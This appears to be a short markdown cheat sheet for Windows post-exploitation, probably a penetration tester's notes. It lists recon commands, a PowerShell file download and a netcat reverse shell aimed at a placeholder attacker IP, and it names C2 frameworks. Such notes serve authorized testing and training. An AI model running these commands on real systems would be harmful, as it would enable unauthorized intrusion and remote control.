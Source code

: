 ```yaml
---
label: Post-exploitation
disabled: true
---
```


# Files To Loot

C:\inetpub\

## Information gathering

```powershell
# List current user privileges
whoami /all

# List all listening TCP ports
netstat -noa | findstr "LISTENING"

# Check ACLs of file / directory
icacls $path
```

## File transfer

```powershell
# Download file from URL
Invoke-WebRequest $url -Out $output_file
```

<https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Downloading_Files_from_Attackers_HTTP_Server_PowerShell>

## Shell stabilisation

```powershell
# Connect to remote listener (get reverse shell)
nc.exe $attacker_ip $attacker_port -e powershell.exe

# Start listening on port
rlwrap nc -lvnp $port
```

- <https://github.com/antonioCoco/ConPtyShell/tree/master>
- C2 frameworks: meterpreter, sliver
